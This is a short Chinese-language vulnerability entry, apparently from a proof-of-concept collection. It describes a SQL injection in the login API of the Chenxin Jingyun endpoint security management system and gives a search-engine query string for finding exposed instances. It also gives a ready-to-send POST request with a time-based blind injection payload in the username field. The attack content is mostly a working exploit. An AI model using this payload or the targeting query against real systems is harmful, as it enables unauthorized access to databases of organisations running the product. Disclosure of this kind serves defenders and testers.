

# 辰信领创 辰信景云终端安全管理系统 login SQL注入漏洞

## 漏洞描述

辰信领创 辰信景云终端安全管理系统 login存在 SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

辰信领创 辰信景云终端安全管理系统

## 网络测绘

```
"辰信景云终端安全管理系统"
```

## 漏洞复现

登录页面


验证POC

```
POST /api/user/login

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(3))a)='
```

